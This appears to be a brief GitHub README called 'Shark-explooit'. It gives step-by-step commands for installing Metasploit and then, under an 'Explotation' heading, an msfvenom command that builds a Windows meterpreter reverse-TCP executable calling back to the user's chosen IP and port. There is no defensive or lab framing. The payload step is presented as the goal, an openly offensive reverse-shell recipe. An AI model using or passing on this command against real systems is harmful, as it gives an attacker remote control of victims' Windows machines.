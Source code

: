 # Shark-explooit

# installation metasploit

Step-by-Step: How to Successfully Install Metasploit on Your System

Step-1 : type `` sudo apt-get update && apt-get upgrade -y `` 

![Alt text](img/1.png)

Step-2 : type `` sudo apt install metasploit-framework ``

![Alt text](img/2.png)

Step-3 : type `` msfconsole -h `` 

![Alt text](img/3.png)

# Explotation

step 4 : type `` msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST="your ip addr" LPORT="port" -f exe -o /home/kali/Desktop/reverse.exe ``

![Alt text](img/4.png)


